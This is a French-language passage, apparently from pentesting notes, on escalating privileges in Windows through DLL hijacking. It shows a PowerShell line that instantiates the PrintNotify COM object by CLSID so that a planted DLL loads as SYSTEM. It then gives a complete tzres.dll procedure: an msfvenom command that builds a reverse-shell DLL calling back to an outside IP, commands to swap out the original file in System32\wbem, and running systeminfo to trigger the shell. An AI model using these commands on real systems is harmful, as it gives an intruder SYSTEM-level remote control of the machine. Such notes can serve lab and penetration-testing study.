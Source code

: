 4. Initier un PrintNotify object qui charge la DLL en tant que SYSTEM.

```
$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
$object = [Activator]::CreateInstance($type)
```

### tzres.dll

Path:  C:\Windows\System32\wbem\

1. Générer tzres.dll avec MSFVENOM

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.177 LPORT=443 -f dll -o tzres.dll
```

2. Renomer la dll originale sur la target

```
mv "C:\Windows\System32\wbem\tzres.dll" "C:\Windows\System32\wbem\tzres.dll.old"
```

3. Copier notre dll dans le path

```
cp tzres.dll "C:\Windows\System32\wbem\"
```

4. Executer la commande systeminfo qui charge la DLL en tant que SYSTEM.

```
systeminfo
```




